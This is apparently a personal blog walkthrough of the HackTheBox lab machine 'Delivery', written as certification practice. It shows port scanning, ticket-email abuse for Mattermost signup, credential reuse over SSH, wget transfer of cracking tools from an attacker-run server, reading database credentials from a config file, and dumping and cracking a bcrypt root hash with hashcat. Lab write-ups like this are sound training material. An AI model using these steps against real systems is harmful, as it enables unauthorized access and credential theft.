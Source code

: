 ```yaml
---
layout: post
title: "Delivery"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.120.35

sudo nmap -sC -sV -oA nmap/delivery -p 22,80,8065 10.129.120.35

result:
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Thu, 05 Dec 2024 14:31:32 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: rfbmprf6jpbwpe5dnrw45wrtfe
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Thu, 05 Dec 2024 14:34:10 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Thu, 05 Dec 2024 14:34:12 GMT
|_    Content-Length: 0
```

Let’s visit the website. Upon clicking a link we get redirected to helpdesk.delivery.htb. Let’s add that to /etc/hosts. The site is an osticket app. It has known vulnerabilties.

![image.png](/assets/delivery/image.png)

```bash
bobby, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 5093027.

If you want to add more information to your ticket, just email 5093027@delivery.htb.

Thanks,

Support Team
```

This ticket shows that any new requests regarding this ticket will get an email automatically sent here. Let’s use this internal email to create a new account in Mattermost.

There is also another link on the home web page in contact us with domain delivery.htb, let’s add that in /etc/hosts as well.

Visiting the site lands us in a login page where we can create a new user. Let’s use the ticket email and create a new user. Once the registration is complete, we will get sent a confirmation email. We can view the email in the osticket app, simply refresh the ticket page and visit the link:

![image.png](/assets/delivery/image%201.png)

Now the registration process is complete and we can sign in with the internal email to mattermost.

![image.png](/assets/delivery/image%202.png)

Luckily we also got our first credential:

![image.png](/assets/delivery/image%203.png)

We also got a hint that the company uses variation of PleaseSubscribe! password everywhere.

Let’s try to login as maildeliverer to ssh. We are logged in. Let’s use [LimEnum.sh](http://LimEnum.sh) to enumerate the machine.

```bash
scp /home/billy/tools/LinEnum.sh maildeliverer@10.129.120.35:~/

On Target host:
chmod +x LinEnum.sh
./LinEnum.sh

result:

[-] Network and IP info:
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.120.35  netmask 255.255.0.0  broadcast 10.129.255.255
        
[-] ARP history:
10.129.0.1 dev ens192 lladdr 00:50:56:b9:f8:ec REACHABLE

[-] Default route:
default via 10.129.0.1 dev ens192

[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::8065                 :::*                    LISTEN      -   

********MYSQL************   
[-] MYSQL version:                                                                                                                                        
mysql  Ver 15.1 Distrib 10.3.27-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2

[-] SUID files:                                                                                                                                           
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                               
-rwsr-xr-x 1 root root 18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23288 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount

mattermost:x:998:998::/home/mattermost:/bin/sh

*A mattermost user*
```

Let’s try and login to mysql

```bash
mysql -h localhost -u maildeliverer -p
```

Does not work. Let’s try bruteforcing root login with hashcat transformation rules. First create a text file that contains the string ‘PleaseSubscribe!’. Then:

```bash
hashcat --stdout pw -r /usr/share/hashcat/rules/best64.rule > pwlist
```

Next we install sucrack and upload it to the target server:

```bash
python3 -m http.server 1234

on target:
cd /dev/shm   #this dir because it's not persistent, deletes files later
wget http://10.10.14.132:1234/sucrack
wget http://10.10.14.132:1234/pwlist
```

Now to execute sucrack

```bash
./sucrack -a -w 20 -s 10 -u root -r pwlist
```

sucrack don’t seem to work on the target.

Let’s try another way. Looking in the config of mattermost, which apps are commonly found in /opt dir:

```bash
cat /opt/mattermost/config/config.json

result:
    "SqlSettings": {                                                                                                                   15:55:32 [384/1838]
        "DriverName": "mysql",                                                                                                                            
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",      
        "DataSourceReplicas": [],                                                                                                                         
        "DataSourceSearchReplicas": [],                                                                                                                   
        "MaxIdleConns": 20,                                                                                                                               
        "ConnMaxLifetimeMilliseconds": 3600000,                                                                                                           
        "MaxOpenConns": 300,                                                                                                                              
        "Trace": false,                                                                                                                                   
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",                                                                                           
        "QueryTimeout": 30,                                                                                                                               
        "DisableDatabaseSearch": false 
```

We acquire credentials for user mmuser.

```bash
mysql -u mmuser -p  #Crack_The_MM_Admin_PW

SHOW DATABASES;
USE mattermost;

show tables;
describe users;
select ID,Username,Password from Users;

result:
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

![image.png](/assets/delivery/image%204.png)

Now let’s try and crack it with hashcat with our pwlist rules.

```bash
hashcat -m 3200 root_hash.txt pwlist
```

We got the password.

We could’ve also done:

```bash
hashcat -m 3200 root_hash.txt pw -r /usr/share/hashcat/rules/best64.rule
```

- osticket
- LinEnum
- Looking through config in /opt
- mysql
- hashcat with rules